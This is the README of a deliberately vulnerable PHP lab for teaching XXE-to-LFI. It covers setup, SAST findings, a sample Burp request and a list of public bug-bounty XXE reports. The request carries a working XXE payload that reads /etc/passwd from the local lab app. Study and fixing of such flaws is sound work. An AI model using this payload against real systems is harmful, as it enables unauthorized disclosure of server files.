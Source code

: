 # PHP-XXE-TO-LFI

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Owasp

 https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
 
 https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection

## SAST Tools : 

Find With SAST Tools : SonarQube Develpoer Plan

![Getting Started](1.png)


Find With SAST Tools : Snyk Team Plans


![Getting Started](2.png)


## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆

## Payload 

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>TEST</name>
    <email>TEST@EXAMPLE.com</email>
    <subject>We TEST</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

    
Burp Request : 


    POST /contact.php HTTP/1.1
    Host: localhost:10004
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:96.0) Gecko/20100101 Firefox/96.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 230
    Origin: http://localhost:10004
    Connection: close
    Referer: http://localhost:10004/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxezrp9j SYSTEM "file:///etc/passwd"> ]>
    <contact>
     <name>mvmm&xxezrp9j;</name>
     <email>ccc@gmail.com</email>
     <subject>aaacckj</subject>
     <message>undefined</message>
    </contact>


## Fix Guide :  

 https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
 
## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
 https://twitter.com/siavashvafshar
    
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md
   
## Top Report 
1. [XXE at ecjobs.starbucks.com.cn/retail/hxpublic_v6/hxdynamicpage6.aspx](https://hackerone.com/reports/500515) to Starbucks - 304 upvotes, $4000
2. [XXE on pulse.mail.ru](https://hackerone.com/reports/505947) to Mail.ru - 263 upvotes, $6000
3. [XXE on sms-be-vip.twitter.com in SXMP Processor](https://hackerone.com/reports/248668) to Twitter - 250 upvotes, $10080
4. [XXE on https://duckduckgo.com](https://hackerone.com/reports/483774) to DuckDuckGo - 208 upvotes, $0
5. [Phone Call to XXE via Interactive Voice Response](https://hackerone.com/reports/395296) to ██████ - 167 upvotes, $0
6. [Partial bypass of #483774 with Blind XXE on https://duckduckgo.com](https://hackerone.com/reports/486732) to DuckDuckGo - 151 upvotes, $0
7. [Multiple endpoints are vulnerable to XML External Entity injection (XXE) ](https://hackerone.com/reports/72272) to Pornhub - 135 upvotes, $2500
8. [XXE through injection of a payload in the XMP metadata of a JPEG file](https://hackerone.com/reports/836877) to Informatica - 128 upvotes, $0
9. [XXE Injection through SVG image upload leads to SSRF](https://hackerone.com/reports/897244) to Zivver - 110 upvotes, $0
10. [XXE in Site Audit function exposing file and directory contents](https://hackerone.com/reports/312543) to Semrush - 99 upvotes, $2000
11. [XXE in DoD website that may lead to RCE](https://hackerone.com/reports/227880) to U.S. Dept Of Defense - 89 upvotes, $0
12. [[RCE] Unserialize to XXE - file disclosure on ams.upload.pornhub.com](https://hackerone.com/reports/142562) to Pornhub - 88 upvotes, $10000
13. [Blind XXE via Powerpoint files](https://hackerone.com/reports/334488) to Open-Xchange - 86 upvotes, $2000
14. [blind XXE in autodiscover parser](https://hackerone.com/reports/315837) to Mail.ru - 70 upvotes, $5000
15. [LFI and SSRF via XXE in emblem editor](https://hackerone.com/reports/347139) to Rockstar Games - 68 upvotes, $1500
16. [Blind OOB XXE At "http://ubermovement.com/"](https://hackerone.com/reports/154096) to Uber - 55 upvotes, $500
17. [XXE на webdav.mail.ru -  PROPFIND/PROPPATCH](https://hackerone.com/reports/758978) to Mail.ru - 54 upvotes, $10000
18. [XXE on ██████████ by bypassing WAF ████](https://hackerone.com/reports/433996) to QIWI - 50 upvotes, $5000
19. [[rev-app.informatica.com] - XXE](https://hackerone.com/reports/105434) to Informatica - 44 upvotes, $0
20. [RCE via Local File Read -\> php unserialization-\> XXE -\> unpickling](https://hackerone.com/reports/415501) to h1-5411-CTF - 43 upvotes, $0
21. [XML External Entity (XXE) in qiwi.com + waf bypass](https://hackerone.com/reports/99279) to QIWI - 39 upvotes, $3137
22. [Authenticated XXE](https://hackerone.com/reports/1095645) to WordPress - 39 upvotes, $600
23. [XML Parser Bug: XXE over which leads to RCE](https://hackerone.com/reports/55431) to drchrono - 32 upvotes, $700
24. [XXE on DoD web server](https://hackerone.com/reports/188743) to U.S. Dept Of Defense - 30 upvotes, $0
25. [Singapore - XXE at https://www.starbucks.com.sg/RestApi/soap11](https://hackerone.com/reports/762251) to Starbucks - 27 upvotes, $500
26. [[app.informaticaondemand.com] XXE](https://hackerone.com/reports/105753) to Informatica - 24 upvotes, $0
27. [Blind XXE on my.mail.ru](https://hackerone.com/reports/276276) to Mail.ru - 23 upvotes, $800
28. [Non-production Open Database In Combination With XXE Leads To SSRF](https://hackerone.com/reports/742808) to Evernote - 23 upvotes, $0
29. [ XXE in upload file feature](https://hackerone.com/reports/105787) to Informatica - 21 upvotes, $0
30. [[send.qiwi.ru] Soap-based XXE vulnerability /soapserver/ ](https://hackerone.com/reports/36450) to QIWI - 17 upvotes, $1000
31. [Blind XXE on pu.vk.com](https://hackerone.com/reports/296622) to VK.com - 16 upvotes, $500
32. [XXE in the Connector Designer](https://hackerone.com/reports/112116) to Bime - 13 upvotes, $750
33. [[marketplace.informatica.com] - XXE](https://hackerone.com/reports/106797) to Informatica - 13 upvotes, $0
34. [AEM forms XXE Vulnerability](https://hackerone.com/reports/1321070) to Adobe - 13 upvotes, $0
35. [OOB XXE ](https://hackerone.com/reports/690387) to Mail.ru - 12 upvotes, $500
36. [blind XXE when uploading avatar in mymail phone app](https://hackerone.com/reports/277341) to Mail.ru - 11 upvotes, $1000
37. [XXE issue](https://hackerone.com/reports/130661) to Moneybird - 11 upvotes, $150
38. [[rev-app.informatica.com] - XXE via SAML](https://hackerone.com/reports/106865) to Informatica - 11 upvotes, $0
39. [[marketplace.informatica.com] - XXE](https://hackerone.com/reports/106802) to Informatica - 11 upvotes, $0
40. [h1-5411-CTF report: LFI / Deserialization / XXE vulnerability, ](https://hackerone.com/reports/415233) to h1-5411-CTF - 8 upvotes, $0
41. [[usuppliers.uber.com] - Server Side Request Forgery via XXE OOB](https://hackerone.com/reports/448598) to Uber - 7 upvotes, $500
42. [XXE крит](https://hackerone.com/reports/449627) to Mail.ru - 7 upvotes, $300
43. [XXE on www.publish.engelvoelkers.com](https://hackerone.com/reports/914801) to Engel & Völkers Technology GmbH - 7 upvotes, $0
44. [XXE in Enterprise Search's App Search web crawler](https://hackerone.com/reports/1156748) to Elastic - 6 upvotes, $8200
45. [[Java]: Add XXE sinks](https://hackerone.com/reports/1339787) to GitHub Security Lab - 6 upvotes, $1800
46. [XXE at Informatica sub-domain](https://hackerone.com/reports/150520) to Informatica - 6 upvotes, $0
47. [OOB XXE ](https://hackerone.com/reports/690295) to Mail.ru - 5 upvotes, $500
48. [XXE and SSRF on webmaster.mail.ru](https://hackerone.com/reports/12583) to Mail.ru - 3 upvotes, $700
49. [XXE in OAuth2 Applications gallery profile App logo](https://hackerone.com/reports/104620) to Coinbase - 2 upvotes, $0
50. [XXE at host vpn.owncloud.com](https://hackerone.com/reports/105980) to ownCloud - 2 upvotes, $0
51. [Pippo XML Entity Expansion (Billion Laughs Attack)](https://hackerone.com/reports/506791) to Central Security Project - 1 upvotes, $0

   
